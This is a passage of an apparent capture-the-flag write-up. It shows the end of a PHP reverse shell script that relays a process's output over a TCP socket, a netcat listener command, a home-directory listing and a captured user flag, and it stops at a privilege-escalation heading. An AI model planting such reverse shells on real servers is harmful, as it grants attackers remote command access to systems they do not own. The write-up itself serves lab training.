 ```php
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```
{% endtab %}

{% tab title="Netcat listener" %}
```bash
nc -lvnp 1234
```
{% endtab %}

{% tab title="Web Server Manager" %}
```
$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jul 31  2019 .
drwxr-xr-x 23 root root 4096 Jul 31  2019 ..
drwxr-xr-x  2 bill bill 4096 Jul 31  2019 bill

```
{% endtab %}

{% tab title="User Flag" %}
```
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
{% endtab %}
{% endtabs %}

## Task \#5: Privilege Escalation
